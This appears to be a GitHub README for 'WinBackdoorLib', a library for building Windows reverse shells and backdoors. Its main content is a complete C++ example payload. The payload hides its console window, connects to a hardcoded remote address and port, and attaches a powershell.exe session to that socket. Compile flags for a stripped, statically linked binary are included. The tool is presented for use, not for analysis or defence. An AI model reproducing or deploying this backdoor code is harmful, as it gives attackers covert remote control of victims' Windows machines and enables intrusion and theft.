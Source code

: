 # WinBackdoorLib
a simple Lib to create "reverse shell or backdoor" simply with Windows API

![Image1](screen.PNG)


## example Payload :
  ```cpp
  //compile : g++ socket_winbd.cpp test_winbd.cpp -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
#include "socket_winbd.h" //to start, we're including our header in our file.

int main() // 
{
    FreeConsole(); // hide console
    SOCKET socks; // equ int socks;
    WSADATA wsa; // equ for wsa

    struct sockaddr_in session; //we declare the structure "sockaddr_in" which will be named session

    WSAStartup(MAKEWORD(2, 2), &wsa); // startup WSA
    socks = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0); // socket configuration

    session.sin_family = AF_INET; // socket Family (AF_INET)
    session.sin_addr.s_addr = inet_addr("192.168.1.20"); // set the address
    session.sin_port = htons(555); // set the port

    int c = connect(socks, session); // connect to remote host
    if (c != -1)
    {
        execute_process(socks, "powershell.exe"); // Handle Process
    }
    return 0;
}
  ```
<iframe width="420" height="315" src="https://www.youtube.com/watch?v=_QK_7yL5704">
</iframe>
<a href="https://unam3dd.github.io/WinbdDocs/">View Documentation</a>

